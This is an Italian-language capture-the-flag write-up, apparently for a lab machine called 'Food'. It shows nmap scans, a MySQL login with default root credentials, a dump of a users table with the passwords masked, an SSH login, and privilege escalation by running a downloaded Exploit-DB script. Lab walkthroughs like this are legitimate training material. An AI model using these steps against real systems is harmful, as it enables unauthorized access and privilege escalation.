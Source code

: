 # FOOD

### enum
si parte sempre con uno scan 
```bash
nmap food.thm -sV -sC 
```

### servizio sql

ho notato che è aperto un servizio sql adiamo ad analizzarlo meglio con nmap

```bash
nmap food.thm -sV --script *sql* 
```
quando nmap finisce lo scan ci restituisce dati molto utili per esempio che l'utente di mysql è root:root
e questo ci da carta bianca sulla conessione all'sql

quindi mi collego all'sql
```bash
mysql -u root -h 10.10.79.244 -p
```
successivamente mi faccio dumpare tutti i database presenti
```bash
show databases;
```
```bash
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
```

ecco la tables che ci serve andiamo a prenderla
```bash
use users
```
e successivamente 
```bash
show tables;
```

adesso abbiamo trovato una tables di nome user andiamo a leggere cosa c'è dentro
```bash
SELECT * FROM User;
```

+----------+---------------------------------------+
| username | password                              |
+----------+---------------------------------------+
| ramen    | ***************                       |
| flag     | ************************************* |
+----------+---------------------------------------+

ecco un utente con la sua password e un flag!

entriamo in ssh

## ssh
```bash
ssh ramen@food.thm
```
controllate in giro ci dovrebbero essere altre flag che potete prendere 

facendo un controllo dei permessi che abbiamo ho notato che possiamo fare davvero molto poco 
quindi sono andato a cercare le vulnerabilità per quanto riguarda GNU e ne ho trovata una davvero interessate
andiamo ad utilizzarla

## PRIVESC

https://www.exploit-db.com/exploits/41154 ho usato questo exploit per fare priv esc 
questo exploit sfrutta un autenticazione di livello maggiore(root) e ci permette tramite un vulnerabilità presente in 
quest'ultima di fare priv esc 

una volta scaricato lo script lo passiamo sulla macchina il gioco è fatto 
```bash
chmod +x script.sh
./script.sh
```
